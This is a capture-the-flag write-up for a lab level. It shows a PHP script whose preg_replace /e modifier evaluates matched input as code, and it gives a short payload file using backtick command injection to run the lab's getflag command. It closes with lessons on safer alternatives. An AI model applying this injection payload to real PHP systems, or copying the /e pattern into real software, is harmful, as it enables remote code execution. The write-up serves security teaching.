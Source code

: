 # Level 06

## 💻 Source Code
```php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

## 🔍 Security Vulnerability Analysis
- The `/e` modifier in the `preg_replace()` function in PHP 5.x versions causes a critical security vulnerability
- This modifier executes the regex-matched text as PHP code
- As a result, a Remote Code Execution (RCE) vulnerability emerges

## 🛠️ Solution Steps
1. First, create the payload file:
```bash
echo '[x ${`getflag`} ]' > /tmp/getflag06
```

2. Run the program:
```bash
./level06 /tmp/getflag06
```

## 📝 Lessons Learned
1. **Security Risk**: The `/e` modifier in PHP's `preg_replace()` function poses serious security risks
2. **Version Information**: The `/e` modifier was removed after PHP 5.5.0 for security reasons
3. **Best Practices**: 
   - Secure regex usage is essential when processing user input
   - When possible, prefer safer alternatives like `preg_replace_callback()`
   - It's important to use current PHP versions